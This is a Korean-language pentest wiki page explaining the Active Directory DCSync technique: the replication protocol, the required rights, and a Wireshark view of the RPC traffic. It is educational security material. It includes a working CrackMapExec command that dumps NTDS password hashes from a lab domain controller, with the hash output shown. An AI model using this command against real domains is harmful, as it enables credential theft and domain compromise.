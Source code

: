 # DCSync

## 개념

도메인 컨트롤러는 윈도우 액티브 디렉토리 도메인 내 사용자 인증 및 권한을 관리하는 중요한 서버다. 너무 중요하기 때문에 대부분의 윈도우 액티브 디렉토리 환경들은 안정성을 위해 도메인 컨트롤러 서버를 두 대 이상 운영하고 있다. 도메인 컨트롤러들은 각자의 액티브 디렉토리 오브젝트 관련 데이터들을 가지고 있고, 사용자 계정등의 경우에는 NTDS.dit 파일들을 각 서버의 파일시스템에 저장하고 있다. 도메인 컨트롤러들은 각자의 도메인 데이터들을 서로 싱크하고 맞추기 위해 MS-DRSR (Directory Replication Service Remote Protocol) 이라는 프로토콜을 사용한다. 그리고 MS-DRSR 프로토콜은 DRSUAPI (Directory Resplication Service) 라는 RPC 인터페이스를 통해 액티브 디렉토리에 적용됐다.

MS-DRSR과 DRSUAPI를 악용할 수 있는 방법은 2015년 8월 Mimikatz 툴에 "DCSync" 라는 기능이 추가되면서 세상에 본격적으로 알려지게 된다. 이 DCSync 라는 기능은 도메인 장악 권한 (도메인 관리자, 엔터프라이즈 관리자, 등)을 가진 상태에서 실행하게 되면 도메인 컨트롤러 머신 계정을 impersonate 한 뒤, DRSUAPI의 `GetNCChanges/DRSGetNCChanges` 함수를 이용해 도메인 내 모든 유저 계정의 계정 정보 (NTDS.dit 파일안의 유저 이름 + NT Hash) 를 받아온다.

Mimikatz가 선보였던 이 "DCSync" 라는 기능은 추후 다른 툴들에게도 적용되어, 오늘날 "DRSUAPI 혹은 MS-DRSR을 이용해 도메인 컨트롤러로부터 도메인 유저 계정 정보를 받아오는" 뜻을 갖게 되었다. 여기서 중요한 점은, DCSync는 공격 방법이나, 익스플로잇이 아니라는 것이다. DCSync는 마이크로소프트사가 적용한 DRSUAPI를 의도한대로 정상적으로 사용할 뿐인 기능이다.



## 사전 조건

내부망 모의해킹 시 DCSync를 사용하려면 현재 장악한 유저 계정이나 머신 계정이 다음과 같은 권한을 도메인 레벨에 가지고 있어야한다. 이 권한들은 모두 ExtendedRights에 해당하는 권한들이다.

1. `DS-Replication-Get-Changes`: Replicating Directory Changes
2. `DS-Replication-Get-Changes-All`: Replicating Directory Changes All
3. 혹은, `GenericAll`

모두 디렉토리의 변경점을 복제하고 싱크하기 위한 권한들이다. 위 권한들을 디폴트로 가지고 있는 액티브 디렉토리 오브젝트들은 다음과 같다.

1. Domain Admins@domain.com
2. Enterprise Admins@domain.com
3. Domain Controllers@domain.com
4. Administrators@domain.com

위 기본적인 오브젝트들이 아니라 `DS-Replication-Get-Changes/All` 권한을 가지고 있는 특정 오브젝트가 있다면, 블러드하운드에서는 아래와 같이 보일 것이다. 대부분 `AllExtendedRights`, `DCSync`, 혹은 `GenericAll` 권한들을 도메인 오브젝트에 가지고 있는 형태로 보인다.&#x20;

<figure><img src="../.gitbook/assets/dcsyncers.PNG" alt=""><figcaption></figcaption></figure>

## 실습

DCSync 권한을 가진 계정을 장악했다면, CrackMapExec, Mimikatz, Invoke-DCSync, SharpKatz 등의 다양한 툴을 이용해 DCSync 기능을 실행한다.

실제 내부망 모의해킹 시 도메인 장악을 끝내고 마지막으로 DCSync를 실행하며 도메인 내 수만명의 계정 정보가 쭉 올라가고 있는 걸 보는 것 만큼 기분 좋은 것이 없다.

```
└─# cme smb 192.168.40.150 -u administrator -p 'Password123!' --ntds                                                                                  
SMB         192.168.40.150  445    DC01             [*] Windows Server 2019 Standard 17763 x64 (name:DC01) (domain:choi.local) (signing:False) (SMBv1:
True)                                                                                                                                                 
SMB         192.168.40.150  445    DC01             [+] choi.local\administrator:Password123! (Pwn3d!)                                         
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...                    
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::          
SMB         192.168.40.150  445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a8f31b642e60b362cc17588df4c5b1e2:::     
SMB         192.168.40.150  445    DC01             choi.local\low:1601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::    
SMB         192.168.40.150  445    DC01             sqladmin:1603:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::             
SMB         192.168.40.150  445    DC01             choi.local\sqldude:1604:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             choi.local\linuxadmin:1605:aad3b435b51404eeaad3b435b51404ee:f7381d09866c0d678b836bf38b37122a:::   
SMB         192.168.40.150  445    DC01             choi.local\edward:1608:aad3b435b51404eeaad3b435b51404ee:2d769326bbe2798417b8fb6091f3857e:::
SMB         192.168.40.150  445    DC01             choi.local\da:1618:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::

[ . . . ]
```

## 실습 - 와이어샤크&#x20;

DCERPC 답게, 먼저 DCSync를 실행하면 Bind 과정을 거져 DRSUAPI 의 RPC 인터페이스들을 본격적으로 찾기 시작한다.&#x20;

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

그 뒤, `DsGetNCChanges` 로 도메인 유저 계정 정보를 받아온 뒤, `DsCrackNames` 로 받아온 데이터를 기본적인 문자열로 다시 포멧한다. 이 과정을 모든 도메인 유저 계정 정보를 받아올 때 까지 계속해서 반복한다.&#x20;

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 레퍼런스&#x20;

* https://wiki.samba.org/index.php/DRSUAPI
* https://adsecurity.org/?p=1729
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)
* https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10)#ds-replication-get-changes-all
* https://winprotocoldoc.blob.core.windows.net/productionwindowsarchives/MS-DRSR/%5bMS-DRSR%5d.pdf
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47
* https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/58f33216-d9f1-43bf-a183-87e3c899c410



